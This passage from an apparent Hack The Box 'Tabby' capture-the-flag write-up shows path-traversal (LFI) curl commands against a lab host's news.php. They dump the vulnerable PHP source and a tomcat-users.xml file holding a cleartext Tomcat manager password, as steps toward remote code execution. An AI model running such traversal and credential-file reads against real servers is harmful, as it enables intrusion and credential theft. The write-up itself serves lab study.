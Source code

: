 ```console
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

```php
$ curl --output - http://megahosting.htb/news.php?file=../../../../../../var/www/html/news.php
<?php
$file = $_GET['file'];
$fh = fopen("files/$file","r");
while ($line = fgets($fh)) {
  echo($line);
}
fclose($fh);
?>
```

#### 8080/tcp-http

Tomcat! See [Remote Code Execution](#Remote%20Code%20Execution) below.

## Remote Code Execution

Here is how I achieved remote code execution on the target system.

Using the LFI on the primary web app, it's possible to dump the `tomcat-users.xml` file which contains the cleartext password for the Tomcat manager apps:

I spent a _very_ long time trying to figure out the exact location of the `tomcat-users.xml` file, and eventually I had to look up a hint.

```console
$ curl --output - http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
...
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

This grants access to the `/host-manager` endpoint:

![](_/htb-tabby-20240809-2.png)
